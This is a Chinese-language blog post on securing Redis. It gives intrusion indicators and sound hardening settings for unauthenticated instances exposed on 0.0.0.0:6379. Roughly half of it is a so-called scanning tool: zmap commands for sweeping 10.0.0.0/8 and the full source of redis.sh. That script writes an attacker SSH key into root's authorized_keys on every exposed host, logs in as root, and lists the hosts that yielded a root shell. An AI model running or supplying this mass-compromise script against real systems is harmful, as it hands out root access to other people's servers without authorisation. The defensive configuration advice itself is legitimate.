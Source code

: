 ```yaml
---
title: Redis 安全配置
layout: post
category: storage
author: 夏泽民
---
```

https://ruby-china.org/topics/28094
内网中 60% 开放了 redis6379 端口的主机处于可以被利用的危险状态，因为都是一些默认配置造成的
Redis 默认情况下，会绑定在 0.0.0.0:6379，这样将会将 Redis 服务暴露到公网上，如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下可以利用 Redis 的相关方法，可以成功在 Redis 服务器上写入公钥，进而可以使用对应私钥直接登录目标服务器。
<!-- more -->
入侵特征：

Redis 可能执行过 FLUSHALL 方法，整个 Redis 数据库被清空
在 Redis 数据库中新建了一个名为 crackit（网上流传的命令指令） 的键值对，内容为一个 SSH 公钥。
在 /root/.ssh 文件夹下新建或者修改了 authorized_keys 文件，内容为 Redis 生成的 db 文件，包含上述公钥
三、修复建议
1.禁止一些高危命令
修改 redis.conf 文件，添加

rename-command FLUSHALL ""
rename-command CONFIG   ""
rename-command EVAL     ""
来禁用远程修改 DB 文件地址

2.以低权限运行 Redis 服务
为 Redis 服务创建单独的用户和家目录，并且配置禁止登陆

3.为 Redis 添加密码验证
修改 redis.conf 文件，添加

requirepass mypassword
4.禁止外网访问 Redis
修改 redis.conf 文件，添加或修改

bind 127.0.0.1
使得 Redis 服务只在当前主机可用

四、扫描工具
1 使用说明
#以Ubuntu为例
su

# Requirements
apt-get install redis-server expect zmap

git clone https://github.com/qingxp9/yyfexploit
cd yyfexploit/redis

# 扫描6379端口
# 如果你要扫内网，把/etc/zmap/zmap.conf中blacklist-file这一行注释掉
zmap -p 6379 10.0.0.0/8 -B 10M -o ip.txt

# Usage
./redis.sh ip.txt
最后，将会生成几个 txt 文件记录结果 其中： runasroot.txt 表示 redis 无认证，且以 root 运行 noauth.txt 表示 redis 无认证，但以普通用户运行 rootshell.txt 已写入公钥，可直接以证书登录 root 用户

像这样：

ssh -i id_rsa root@x.x.x.x
2 工具源代码
就贴下代码吧，各位大牛请在家长陪同下观看

#!/bin/sh
 if [ $# -eq 1  ]
 then
   ip_list=$1

   ##create id_rsa
   echo "****************************************Create id_rsa file"

   expect -c "
     spawn ssh-keygen -t rsa -f id_rsa -C \"yyf\"
     expect {
         \"*passphrase): \" {
             exp_send \"\r\"
             exp_continue
         }
         \"*again: \" {
             exp_send \"\r\"
         }
         \"*y/n)? \" {
             exp_send \"n\r\"
         }
     }
     expect eof
   "

   echo "\n\n****************************************Attack Targets"
   touch noauth.txt runasroot.txt rootshell.txt haveauth.txt
   i=0
   cat $ip_list | while read ip
   do
     i=`expr $i + 1`;
     #write id_rsa.pub to remote
     echo "*****${i}***connect to remote ${ip} redis "

     expect -c "
       set timeout 3
       spawn redis-cli -h $ip config set dir /root/.ssh/
       expect {
         \"OK\"                        { exit 0 }
         \"ERR Changing directory: Permission denied\"         { exit 1 }
         timeout                       { exit 2 }
         \"(error) NOAUTH Authentication required\"         { exit 3 }
       }
     "

     case $? in
         0)  echo "run redis as root"
             echo $ip >> noauth.txt
             echo $ip >> runasroot.txt
         ;;
         1)  echo "not run redis as root\n\n\n"
             echo $ip >> noauth.txt
             continue
         ;;
         2)  echo "connect timeout\n\n\n"
             continue
         ;;
         3)  echo "Have Auth\n\n\n"
             echo $ip >> haveauth.txt
             continue
         ;;
     esac

     (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
     cat foo.txt | redis-cli -h $ip -x set 1
     redis-cli -h $ip config set dir /root/.ssh/
     redis-cli -h $ip config set dbfilename "authorized_keys"
     redis-cli save

     #login test
     echo "#try to login"
     expect -c "
       set timeout 5
       spawn ssh -i id_rsa root@$ip echo \"yyf\"
       expect {
         \"*yes/no\"     { send \"yes\n\"}

         \"*password\"   { send \"\003\"; exit 1 }
         \"yyf\"         { exit 0 }
         timeout         { exit 2 }
       }
       exit 4
     "

     exitcode=$?

     if [ $exitcode -eq 0 ]
     then
       echo "---------------${ip} is get root shell"
       echo $ip >> rootshell.txt
     fi

     echo "\n\n\n"
   done

   echo "##########Final Count##########"
   wc -l $ip_list
   echo "----------"
   wc -l noauth.txt
   wc -l runasroot.txt
   wc -l rootshell.txt
   echo "----------"
   wc -l haveauth.txt

 else
   echo "usage: ./redis.sh ip.txt"
 fi
五、相关参考
http://zone.wooyun.org/content/23858
https://blog.islandzero.net/2015/11/11/redis-crackit/
http://blog.knownsec.com/2015/11/analysis-of-redis-unauthorized-of-expolit/